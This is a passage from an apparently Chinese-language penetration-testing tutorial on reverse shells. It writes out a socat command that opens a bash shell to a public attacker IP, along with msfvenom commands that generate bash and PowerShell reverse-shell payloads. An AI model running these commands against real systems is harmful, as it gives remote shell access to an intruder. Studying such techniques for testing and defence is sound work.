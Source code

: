 ![img](https://image.3001.net/images/20190807/1565160888_5d4a75b8b2842.png!small)

![img](https://image.3001.net/images/20190807/1565160894_5d4a75be79ae1.png!small)

在目标主机上面查看端口信息发现，目标主机与公网IP的8888端口建立了连接，故内网主机的shell反弹到了公网服务器。

![img](https://image.3001.net/images/20190807/1565161618_5d4a7892cbea3.png!small)

除了bash一句话可以反弹shell，还包括不限于python\java\per\php等脚本的一句话，感兴趣的大佬都可以自己去研究一下。小白就不在这里班门弄斧了。

## 冰雪来袭

### socat 反弹一句话

Socat是Linux 下一个多功能的网络工具，它与nc工具差不多，但是看了网上多说人反馈相比NC工具方便的多。为了方便测试，内网主机我们用kali，因为kali上面不用安装，需要在公网IP安装一下。

首先我们在公网上面执行监听9999端口的命令：socat TCP-LISTEN:9999 -

目标主机上面执行以下命令：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:106.xxx.xxx.115:9999

执行完毕后，公网服务器上面就会出现内网的bash，可以执行系统命令。

![img](https://image.3001.net/images/20190807/1565162515_5d4a7c1324ca5.png!small)

### msfvenom 获取反弹一句话

MSF渗透测试框架除了常规的端口扫描、口令爆破、抓包、提权等操作，还可以作为生成一句话反弹shell的工具。我们需要在MSF上面查询到各类的路径信息。本机的服务器有点卡，就不一一列出各类的路径信息。

首先使用bash反弹生成一句话，执行一下命令：msfvenom -p cmd/unix/reverse_bash lhost=MSFIP lport=5555 R 这条命令也可以在自己kaili上面执行生成，只是把IP改为自己的公网IP，本地测试的时候在公网服务器生成的事件特慢，不知道什么原因。

![img](https://image.3001.net/images/20190807/1565164009_5d4a81e919a26.png!small)

一定要先在公网服务器监听5555端口，然后把生成的执行语句在目标主机上面进行执行（执行的命令为上个图片中标红的命令）。不然会出错的。

![img](https://image.3001.net/images/20190807/1565164083_5d4a8233d5edd.png!small)

![img](https://image.3001.net/images/20190807/1565164117_5d4a825548b6b.png!small)

接下来我们玩个刺激的，看看powershell能不能行的通？我们搜索搜索一下是不是有powershell这个模块，通过命令查询，果不其然有这个模块，你要知道pwoershell这个渗透测试框架是非常牛逼的，我们在安全测试过程中不仅遇见Lin环境，更多的遇见的是Win环境。废话少数，下面开始测试

msfvenom -l payloads |grep 'reverse_powershell' //查询powershell模块的位置

![img](https://image.3001.net/images/20190807/1565164240_5d4a82d0c9db1.png!small)

msfvenom -p cmd/windows/reverse_powershell lhost=106.xxx.xxx.115 lport=8899 r //生成payload,类型是Powershell,标红的一段是需要在目标主机上面执行的命令。

![img](https://image.3001.net/images/20190807/1565164449_5d4a83a15ed3f.png!small)

由于执行的命令太多了，小白在这里就不罗列了，还是那句话，首先在公网服务器上执行监听的命令：
